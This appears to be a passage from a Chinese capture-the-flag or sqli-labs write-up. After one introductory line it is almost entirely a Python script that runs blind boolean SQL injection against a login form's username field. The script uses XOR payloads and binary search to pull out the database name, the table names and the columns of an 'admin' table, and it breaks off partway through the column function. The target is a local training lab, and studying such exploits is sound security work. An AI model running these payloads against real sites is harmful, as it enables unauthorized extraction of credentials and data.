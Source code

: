 这里需要使用脚本以便高效处理

```python
#-*-coding:utf-8-*-
import requests
import time

host = "http://sqli-labs-master:8848/Less-7/"

def getDatabase():  #获取数据库名
    global host
    ans=''
    for i in range(1,1000):
        low = 32
        high = 128
        mid = (low+high)//2
        while low < high:
            payload= "1'^(ascii(substr((select(database())),%d,1))<%d)^1#" % (i,mid)
            param ={"username":payload,"password":"admin"}
            res = requests.post(host,data=param)
            if "用户名错误" in res.text:
                high = mid
            else:
                low = mid+1
            mid=(low+high)//2
        if mid <= 32 or mid >= 127:
            break
        ans += chr(mid-1)
        print("database is -> "+ans)

def getTable(): #获取表名
    global host
    ans=''
    for i in range(1,1000):
        low = 32
        high = 128
        mid = (low+high)//2
        while low < high:
            payload = "1'^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),%d,1))<%d)^1#" % (i, mid)
            param = {"username": payload, "password": "admin"}
            res = requests.post(host,data=param)
            if "用户名错误" in res.text:
                high = mid
            else:
                low = mid+1
            mid=(low+high)//2
        if mid <= 32 or mid >= 127:
            break
        ans += chr(mid-1)
        print("table is -> "+ans)

def getColumn(): #获取列名
    global host
    ans=''
    for i in range(1,1000):
        low = 32
        high = 128
        mid = (low+high)//2
        while low < high:
            payload = "1'^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='admin')),%d,1))<%d)^1#" % (
            i, mid)
            param = {"username": payload, "password": "admin"}
```